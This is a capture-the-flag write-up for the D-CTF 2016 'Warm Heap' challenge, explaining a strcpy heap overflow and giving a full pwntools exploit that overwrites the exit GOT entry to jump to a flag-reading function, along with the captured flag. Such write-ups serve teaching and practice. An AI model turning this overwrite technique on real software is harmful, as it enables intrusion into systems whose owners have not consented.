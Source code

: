 ```yaml
---
layout: post
title: "D-CTF Qualifiers 2016: Warm Heap (Exploit 100)"
author: f0rki
categories: writeup
tags: [cat/pwn, tool/pwntools, tool/ltrace]
---
```


* **Category:** Exploit
* **Points:** 100
* **Description:**

> 10.13.37.21:1337
> https://dctf.def.camp/quals-2016/exp100.bin

## Write-up

This is a pretty straight forward heap based buffer overflow. It's pretty easy
to reverse the main function and we can see the rather obvious `strcpy` buffer
overflows. I wrote the main function down in pseudo-C:

```
struct foo {
    int64 count;
    void* ptr;
};

struct foo* a = malloc(16); // rbp-0x1020
a.count = 1;
a.ptr = malloc(8);
struct foo* b = malloc(16); // rbp-0x1018
b.count = 2;
b.ptr = malloc(8);

char buf[0x1000];

fgets(buf, 0x1000, stdin);
strcpy(a.ptr, buf);
fgets(buf, 0x1000, stdin);
strcpy(b.ptr, buf);
exit();
```

The first version of the binary was by accident hardened with `FORTIFY_SOURCE`
so the `strcpy` where `__strcpy_chk` calls with a limit of 8.
Fortunately they fixed that pretty soon, although I lost some time looking at
the non-exploitable version.

Since this is a heap based overflow I like to gain a quick overview of the
allocations by using `ltrace -e 'malloc+free'`, e.g.:

```
malloc(16)             = 0x8d6010
malloc(8)              = 0x8d6030
malloc(16)             = 0x8d6050
malloc(8)              = 0x8d6070
```

So we can see that `b.ptr` is allocated `0x20` bytes before `b` and `b.ptr` is
used as the target of the second `strcpy`. We can abuse this to overwrite and
arbitrary address, with data we supply. To redirect control flow we need a code
pointer that is writable, at a fixed address to bypass ASLR and is used after
we corrupted it. Fortunatly the `GOT` entry of `exit` fits all those criteria.

1. Use first `strcpy` call to overwrite `b.ptr` with `got.exit`
2. Use second `strcpy` to write an arbitrary address to `got.exit`
3. We control the target of the call to `exit` and redirect to the flag reading
   function at `0x00400826`


Here is the full exploit. I used the debugger and a cyclic pattern to determine
the offset from `a.ptr` to `b`, because I was too lazy to calculate it.

The flag was `DCTF{b94c21ff7531cba35a498cb074918b3e}`


```python
#!/usr/bin/env python

from pwn import *

velf = ELF("./exp100.bin")
# vlibc = ELF("../libc/lib/x86_64-linux-gnu/libc-2.23.so")
# use the ubuntu libs
env = {"LD_LIBRARY_PATH": "../libc/lib/x86_64-linux-gnu/"}
DEBUG = False
# DEBUG = True
if DEBUG:
    vp = process("./exp100.bin", env=env)
    gdb.attach(vp, execute="""
# init-pwndbg
init-peda
# first strcpy
break *0x0040096e
# second strcpy
break *0x004009a6
# exit
break *0x004009b0
""")
else:
    vp = remote("10.13.37.21", 1337)

read_flag_addr = 0x00400826
exit_got_addr = velf.got['exit']

# c = cyclic(0x1000*2, n=8)
# vp.sendline(c[:0x1000])
# vp.sendline(c[0x1000:])
off = cyclic_find("faaaaaaa", n=8)

with context.local(log_level="debug"):
    vp.sendline("A" * off + p64(exit_got_addr))
    vp.sendline(p64(read_flag_addr))
    vp.clean_and_log()

vp.interactive()

vp.close()
```
